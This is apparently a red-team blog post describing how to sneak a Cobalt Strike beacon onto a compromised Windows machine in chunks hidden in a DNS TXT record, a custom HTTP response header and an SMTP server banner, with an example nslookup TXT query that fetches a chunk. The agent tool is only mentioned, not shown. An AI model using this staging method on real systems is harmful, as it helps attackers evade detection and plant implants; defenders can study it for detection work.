





Infiltrating CS Beacon through out different mediums
Introduction:
Hello Everyone, We all have heard of many infiltration techniques that were widely used making them easy to be detected. so we at Confidential took a step toward an infiltration technique that will make it a bit more complex in order not to be detected by any sense. Today’s article will clarify how we have infiltrated CS beacon through out different mediums.
Brief
We splitted the CS beacon into multiple chunks that will be later infiltrated from different mediums (DNS txt record, custome HTTP response header, and SMTP server’s banner) using an executable agent that we will show a full demo about at the end of the article.
DNS txt record:
TXT records are a type of Domain Name System (DNS) record that contains text information. According to Google
Simply we can add our CS beacon’s chunked as a txt dns record so when we perform a txt DNS query it will be resolved by the DNS Server resulting in getting the chunked part.
nslookup -querytype=txt confidential.example.com

HTTP Response Header:
We configured our web server Response header so that we have the 2nd CS beacon’s chunk in a custom response header called Confidential.

SMTP Server’s Banner:
We set up our SMTP Server and modified its configuration adding up the last chunck in the SMTP server’s banner.

Demo
Our team developed a tool that automates the process with more features. Here’s a demo of the executable agent that we fired up inside the compromised windows machine.


All techniques mentioned above are just limited examples of how you can infiltrate your malicious payload to the compromised machine. You still can come up with your own ideas that suits the scenario